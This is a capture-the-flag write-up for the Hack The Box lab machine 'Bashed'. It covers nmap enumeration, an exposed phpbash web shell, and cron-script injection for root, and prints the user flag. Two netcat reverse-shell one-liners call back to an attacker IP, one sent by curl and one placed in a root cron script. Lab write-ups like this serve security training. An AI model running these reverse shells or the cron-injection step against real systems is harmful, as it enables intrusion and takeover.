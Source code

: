 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     |  Bashed  |
| **IP Address**|   10.10.10.68   |
| **OS**       |  Linux        |
| **Difficulty**|  Easy |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```bash
Discovered open port 80/tcp on 10.10.10.68
```

## Initial Access
### Port [80] - [Arrexel's Development Site]

![](Bashed%20Writeup%20-%20Web%20server.png)

PHPBash project is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

Reference: https://github.com/Arrexel/phpbash

Running FFUF reveals the phpbash.php file under /.dev. 


#### Vulnerability Exploited

To get a reverse shell, we sent the payload in a post request to the webshell file: 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: bashed.htb' \
    --data-binary $'cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.5+1337+>/tmp/f' \
    $'http://bashed.htb/dev/phpbash.php'
```


#### Exploitation Steps

Received the shell as www-data, we escalate our privileges to scriptmanager by running: 

``sudo -u scriptmanager bash
### User Access

- 
#### User Flag

``50abec25ca7fdf9459b53a4ffbea0e98
## Privilege Escalation


#### Root Flag

Under /scripts, there's test.py and test.txt files, the text file is owned by root, and as it appears, it was written by the test.py file, so we assume that there's cron as root running it.

To exploit this we inject a python reverse shell and we successfully get a hit back ! 

```bash
(remote) root@bashed:/home# cd /scripts/
(remote) root@bashed:/scripts# ls
f  test.py  test.txt
(remote) root@bashed:/scripts# cat test.*
import os
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 13378 >/tmp/f')
testing 123!(remote) root@bashed:/scripts# 
```

## Conclusion

-
## Additional Notes

-
## Resources
-